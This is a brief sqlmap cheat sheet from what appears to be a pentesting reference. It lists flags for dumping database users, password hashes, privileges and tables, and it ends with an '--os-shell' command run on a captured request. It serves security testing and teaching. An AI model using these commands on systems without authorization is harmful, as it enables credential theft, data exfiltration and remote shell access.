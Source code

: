 # SQL - Map

### Retrieve Information

#### **Internal**

```bash
--current-user #Get current user
--current-db #Get current database name
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```

#### **DB data**

```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

### Injection place <a href="#injection-place" id="injection-place"></a>

### From Burp/ZAP capture

Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --os-shell
```
